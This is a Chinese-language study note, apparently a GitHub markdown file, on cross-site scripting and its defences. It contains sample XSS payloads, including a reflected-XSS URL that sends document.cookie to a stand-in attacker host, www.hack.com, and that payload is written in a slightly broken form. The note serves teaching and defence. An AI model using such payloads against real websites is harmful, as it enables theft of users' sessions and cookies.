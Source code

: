 ## XSS(Cross-Site Scripting)跨站脚本攻击 ##
+ 有人向网页注入恶意脚本代码
+ 用户访问了包含恶意代码的网页
+ 恶意脚本让黑客可以获取和控制用户信息
+ 防范是对用户输入做严格过滤

### 1.反射型(非持久型)XSS ###
+ 反射型， `/home?type=<script>alert(1)</script>`
+ {httpOnly: true}) 前端不能操作cookie,并不能解决XSS，但是可以降低受损的范围
+ 如果一个网站把用户输入的部分直接显示(留言板，查询)，那么黑客可以根据这个做XSS，黑客可以用这个网址`www.正规URL.com?query=<script>img.src=www.hack.com?query=document.cookies<script>`，诱导用户自己点开，因为前面是正规的具有XSS漏洞的网址，用户很容易上当，一旦点击自己的cookies就被拿走了
+ 查询参数 预防方法，使用encodeURIComponent对输入url encode

### 2.DOM-BASE XSS ###
+ 不基于后端，基于DOM(文档对象模型),修改属性,插入内容
+ 在改变结构后,会造成攻击,特别是使用innerhtml的时候,DOM解析HTML，造成攻击
+ 攻击的内容称为xss payload
+ 在用户输入的地方作为img的src,在这里输入 `""><script>alert(2)<\/script>"`就是一次DOM-BASE的XSS
+ 对用户输入使用encodeURI或者手动转义,或者使用DOM API代替InnerHtml

### 3.存储型 XSS ###
+ 存储型XSS,恶意脚本存在服务器上,所有人都被影响了
+ 最常发生在由社区内容驱动的网站或Web邮件网站,不需要特制的链接来执行,一般发生在博客评论,用户评论,留言板,聊天室,HTML电子邮件
+ 客户端上传的时候，先校验过滤一下,服务器在过滤一下,在使用上传的内容时，也就是输出的时候过滤
+ 过滤是将用户输入的字符转义，将`& " < > '`转成 `&amp; &quot; &lt; &gt; &apos;`

#### 防御总结 ####
1. 首先需要注意的是应该对所有用户提交的内容执行严格的输入验证,对URL,HTML,Javascript进行转义
2. 保护被自动执行或来自第三方网站执行的所有敏感功能，使用令牌，验证码或者HTTP引用头检查
3. 尽量不接受用户输入的HTML,如果非要,要禁止script标签，禁止调用远程内容(img,script,style)